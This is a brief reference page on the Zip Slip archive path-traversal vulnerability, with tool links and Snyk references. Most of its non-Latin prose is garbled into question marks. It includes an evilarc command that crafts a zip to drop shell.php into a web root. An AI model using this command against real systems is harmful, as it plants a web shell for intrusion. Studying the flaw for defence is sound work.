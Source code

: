 # Zip Slip

> ?????????????????,???????????????(??:../../shell.php)?Zip Slip?????????????,??tar?jar?war?cpio?apk?rar?7z?zip?????????????????????,?????????????,??????????????????

## ??

* [??](#??)
* [??](#??)
* [Exploits](#exploits)
  * [?? Exploit](#??-exploit)
* [????](#????)

## ??

- ???????????????????

## ??

- [evilarc](https://github.com/ptoomey3/evilarc)
- [slipit](https://github.com/usdAG/slipit)

## Exploits

### ?? Exploit

?? [evilarc](https://github.com/ptoomey3/evilarc):
```python
python evilarc.py shell.php -o unix -f shell.zip -p var/www/html/ -d 15
```

### ????
- ???????,??? https://github.com/snyk/zip-slip-vulnerability

## ??

- [Zip Slip Vulnerability - Snyk Ltd, 2019](https://snyk.io/research/zip-slip-vulnerability)
- [Zip Slip - snyk, 2019](https://github.com/snyk/zip-slip-vulnerability)
